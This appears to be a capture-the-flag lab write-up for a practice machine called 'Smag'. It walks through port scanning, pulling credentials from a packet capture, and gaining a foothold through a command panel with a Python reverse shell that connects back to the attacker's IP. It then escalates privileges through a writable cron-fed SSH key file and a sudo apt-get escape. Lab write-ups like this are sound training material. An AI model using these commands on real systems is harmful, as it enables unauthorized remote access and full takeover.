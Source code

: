 ## Target IP: `10.10.98.180`

---

### Environment Setup

```bash
export IP=10.10.98.180
export LIP=10.6.24.56
```

---

### Reconnaissance

**Nmap Scan:**

```bash
sudo nmap -sC -sV -T4 -O $IP -oN nmap_scan.txt
```

**Nikto Scan:**

```bash
nikto -h http://$IP
```

**Gobuster Scan:**

```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt -x php
```

**Open Ports:**

| Port | Service |
| --- | --- |
| 22 | SSH (OpenSSH 7.2p2) |
| 80 | HTTP (Apache 2.4.18) |

---

### Web Enumeration

Base page displayed:

```
Welcome to Smag!

This site is still heavily under development, check back soon to see some of the awesome services we offer!
```

Source code: nothing of value.

**Discovered Directory: `/mail`**

Browsing `/mail` revealed:

- Internal note about migrating from `192.168.33.0/24` to `10.10.0.0/8`
- Email thread referencing `dHJhY2Uy.pcap` (attached PCAP)
- Instructions to use `wget` to retrieve attachments due to software bug
- Hidden HTML comment:

```html
<!-- <a>Bcc: trodd@smag.thm</a> -->
```

**Usernames Identified:**

- jake
- uzi
- netadmin
- trodd

---

### PCAP Analysis

Downloaded `dHJhY2Uy.pcap` and opened with Wireshark. Found gold in a TCP stream:

```
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

username=helpdesk&password=[REDACTED]
```

Added `development.smag.thm` to `/etc/hosts`.

---

### Virtual Host Enumeration

Ran Gobuster on new vhost:

```bash
gobuster dir -u http://development.smag.thm -w /usr/share/wordlists/dirb/common.txt -x php
```

**Discovered Paths:**

- `/login.php`
- `/admin.php`

---

### Authenticated RCE

Logged into `/login.php` using creds from the PCAP:

```
Username: helpdesk
Password: [REDACTED]
```

Login page accepted input and included a command box. Simple commands like `whoami` or `ls` returned no output.

Ignored the silence and dropped a reverse shell:

**Payload:**

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.24.56",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Listener:**

```bash
nc -lvnp 7777
```

Shell landed.

---

### Shell Upgrade

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

User: `www-data`

---

### Privilege Escalation — SSH Key Injection via Cronjob

Checked crontab:

```bash
cat /etc/crontab
```

Output:

```
* * * * * root /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```

Means Jake’s `.ssh/authorized_keys` is overwritten every minute with the contents of `/opt/.backups/jake_id_rsa.pub.backup`.

Generated SSH keypair on local machine:

```bash
ssh-keygen -f jake
```

Copied contents of `jake.pub` into:

```bash
/opt/.backups/jake_id_rsa.pub.backup
```

Waited for cron to overwrite Jake’s authorized keys. Then:

```bash
ssh -i jake jake@$IP
```

And we’re in.

---

### Root Privileges

Checked sudo rights:

```bash
sudo -l
```

Output:

```
(ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

Confirmed `apt-get` privilege escalation via GTFOBins:

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

Root shell.

---

### Final Flag

```bash
cat /root/root.txt
```

**Flag:**

```
[REDACTED]
```
